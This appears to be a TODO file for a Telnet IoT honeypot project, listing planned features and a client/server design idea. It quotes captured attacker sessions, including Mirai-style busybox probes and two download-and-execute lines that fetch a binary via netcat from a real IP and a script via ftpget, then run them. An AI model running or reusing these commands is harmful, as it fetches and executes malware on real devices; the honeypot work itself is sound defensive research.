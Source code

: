 # Telnet IoT honeypot TODO

## Small

### clean up html/php frontend
### auto update Malware Scan Results from virustotal (done by virustotal_fill_db.py for now)
### nc support

	2017-01-06 01:46:47   main.py:214        # enable^@
	2017-01-06 01:46:48   main.py:214        # system^@
	2017-01-06 01:46:48   main.py:214        # shell^@
	2017-01-06 01:46:49   main.py:214        # cd /tmp ; nc 154.16.3.202 1337 > bin ; chmod 777 bin ; ./bin ; rm -rf bin^@
	2017-01-06 01:46:49   main.py:214        # sh^@
	2017-01-06 01:46:50   main.py:214        # /bin/busybox FBI^@

### ftpget support

	2017-01-06 01:30:23   main.py:214        # enable
	2017-01-06 01:30:23   main.py:214        # system
	2017-01-06 01:30:24   main.py:214        # shell
	2017-01-06 01:30:25   main.py:214        # sh
	2017-01-06 01:30:25   main.py:214        # /bin/busybox MIRAI
	2017-01-06 01:30:26   main.py:214        # cd /var/tmp;cd /tmp;rm -f *;busybox ftpget securityupdates.us f f;sh f;ftpget securityupdates.us f f;sh f &

## Big

### Client/Server Modell

*Idea*
client (the real honeypot) runs as a telnet server (as now) but all conns and urls are just pushed do a db server, downloading and "analyzing" the binaries.

*PRO*
More servers than one possible (to increase the surface to catch connections)

*CONTRA*
I so not have more than one public IP, so multiple honeypots are useless + Multple IP's can be served via Firewall rules
